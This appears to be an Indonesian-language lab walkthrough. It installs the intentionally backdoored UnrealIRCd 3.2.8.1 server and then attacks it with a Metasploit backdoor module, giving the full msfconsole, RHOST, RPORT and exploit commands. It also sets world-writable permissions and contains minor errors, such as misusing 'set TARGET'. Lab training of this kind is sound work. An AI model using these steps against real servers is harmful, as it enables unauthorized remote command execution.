# Metasploit

## UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)

### Pemasangan UnrealIRCd

unduh programnya di link berikuut [ini](https://www.exploit-db.com/apps/752e46f2d873c1679fa99de3f52a274d-Unreal3.2.8.1_backdoor.tar_.gz)
kemudian ekstrak ke tempat yang sama.

Install dependencies.
```bash
apt-get install build-essential
apt-get install openssl
apt-get install libcurl4-openssl-dev
```

Masuk ke folder Unreal3.2 yang telah diekstrak tadi
```bash
cd Unreal3.2
```

Jalankan perintah berikut
```bash
chmod 777 *;
./Config
```

Akan muncul pertanyaan-pertanyaan.
```
 Do you want to enable the server anti-spoof protection?
 ```
Jawab "Yes"

```
Lebih baik memakai proteksi ini. Default: "No".


Lewati pertanyaan-pertanyaan di bawah ini (langsung saja tekan "Enter"):
```bash
What directory are all the server configuration files in?

What is the path to the ircd binary including the name of the binary?

Would you like to compile as a hub or as a leaf?

What is the hostname of the server running your IRCd?

What should the default permissions for your configuration files be?

```
Untuk pertanyaan selanjutnya jika ingin memasang library SSL Jawab "Yes". Jika tidak langsung tekan "Enter"
```bash
Do you want to support SSL (Secure Sockets Layer) connections?
```

Selanjutnya jika menjawab "Yes" maka isi pertanyaan di bawah ini dengan lokasi SSL yang benar:
```bash
If you know the path to OpenSSL on your system, enter it here. If not leave this blank
```

Lewati pertanyaan di bawah ini
```bash
Do you want to enable IPv6 support?
Do you want to enable ziplinks support?
Do you want to enable remote includes?
How far back do you want to keep the nickname history?
What is the maximum sendq length you wish to have?
How many buffer pools would you like?
How many file descriptors (or sockets) can the IRCd use?
Would you like any more parameters to configure?
```

Kembali lagi dengan permasalahan tadi. Jika jawaban dari pertanyaan
```bash
If you know the path to OpenSSL on your system, enter it here. If not leave this blank
```
adalah "Yes", maka untuk akan muncul pertanyaan selanjutnya. Isilah pertanyaan tersebut sesuai keinginan Anda.
```bash
 Country Name. Enter the country name that the server is located in, eg. US for United States.
 State/Province. Input the state or province that your server is located in.
 Locality name. Enter the city that your server is located in, eg. Miami.
 Organization Name. Enter the name of your entity, eg. TestIRC.
 Organizational Unit Name. An example could be "Technical Dept."
 Common Name. Enter the domain that points to your server, eg. servername.TestIRC.net. 
```

Pengaturan awal sudah selesai. Sekarang ketikkan perintah di bawah ini
```bash
make
```

## Mengatur UnrealIRCd.conf
File konfigurasi ini sangat penting. Sesudah menjalankan perintah di atas jalankan perintah di bawah ini:
```bash
cp doc/example.conf unrealircd.conf
```

Sekarang saatnya mengotak-atik pengaturan unrealircd.conf.

Gunakan text editor yang biasa Anda gunakan.

Pada bagian ini, perlu sedikit-banyak otak-atik.

Jika Anda menggunakan Linux, hapus dua garis miring("/") pada baris di baris-35 dan 36.
Atau jika Anda menggunakan Windows, hapus dua garis miring("/") pada baris-40 dan 41.
```bash
/* FOR *NIX, uncomment the following 2lines: */
//loadmodule "src/modules/commands.so";
//loadmodule "src/modules/cloak.so";

/* FOR Windows, uncomment the following 2 lines: */
//loadmodule "modules/commands.dll";
//loadmodule "modules/cloak.dll";
```

Kemudian cari blok Me pada baris-68
```bash
me
{
	name "irc.foonet.com";
	info "FooNet Server";
	numeric 1;
};
```
Ubah sesuai keinginan Anda.

Kemudian cari blok Admin pada baris-87
```bash
admin {
	"Bob Smith";
	"bob";
	"widely@used.name";
};
```
Ubah sesuai keinginan Anda.

Kemudian cari blok Oper pada baris-198
```bash
oper bobsmith {
	class           clients;
	from {
		userhost bob@smithco.com;
	};
	password "f00";
	flags
	{
		netadmin;
		can_zline;
		can_gzline;
		can_gkline;
		global;
	};
};
```
Ubah sesuai keinginan Anda




-- -- --


### Jalankan Metaxploit
```bash
msfconsole
```

### Gunakan exploit *UnrealIRCd 3.2.8.1 - Backdoor Command Execution*
```bash
use exploit/unix/irc/unreal_ircd_3281_backdoor
```

##### Atur tujuan exploit
*192.168.0.101* sebagai contoh
```bash
set TARGET 192.168.0.101
```

### Tujuan dapat juga diatur dengan syntax berikut
```bash
set RHOST 192.168.0.101
```
### Atur port (jika perlu)
di sini service port yang digunakan oleh UnrealIRC adalah 6606
```bash
set RPORT 6606
```

### Eksekusi exploit
```bash
exploit
```
